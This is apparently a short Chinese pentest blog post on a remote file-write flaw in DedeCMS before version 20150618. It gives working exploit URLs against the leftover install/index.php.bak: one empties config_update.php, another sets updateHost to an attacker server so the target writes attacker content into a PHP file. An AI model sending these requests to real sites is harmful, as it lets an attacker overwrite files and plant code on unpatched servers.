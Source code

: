 ```yaml
---
draft: false
date: 2016-08-05 23:29:20
title: Dedecms 远程写文件漏洞
description: 
categories:
  - Pentest
tags:
  - dedecms
---
```


### 0x00 关于漏洞
```
Dedecms在20150618之前的版本都存在远程写文件漏洞，主要起因是Apache的解析漏洞
```

### 0x01 利用条件
```
dedecms版本为20150618之前的  
安装目录install下的index.php.bak文件未被删除
```

### 0x02 实例
* 查看cms版本
![查看织梦cms版本](/img/post/dedecms_before_20150617_check_version.png)

* 清空文件
```php
http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=../data/admin/config_update.php
访问上面的链接会使服务器到http://updatenew.dedecms.com/base-v57/dedecms/
demodata.a.txt中读取内容写入到config_update.php，但demodata.a.txt为空，
所以就清空了config_update.php
```
![清空文件config_update](/img/post/dedecms_before_20150617_clear_config_update.png)

* 在自己的服务器上创建文件
![在自己的服务器上构造文件](/img/post/dedecms_before_20150617_construction_file.png)

* 写入文件
```
访问http://www.xxxx.com/install/index.php.bak?step=11&insLockfile=a
&s_lang=a&install_demo_name=info.php&updateHost=http://123.123.123.123/
将自己的网站的dedecoms/demodata.a.txt写入到目标站点的install/下的info.php中
```
![将自己构造的内容写入到文件](/img/post/dedecms_before_20150617_write_file.png)

* 访问生成的文件
![访问写入我们内容的文件](/img/post/dedecms_before_20150617_visit_written_file.png)

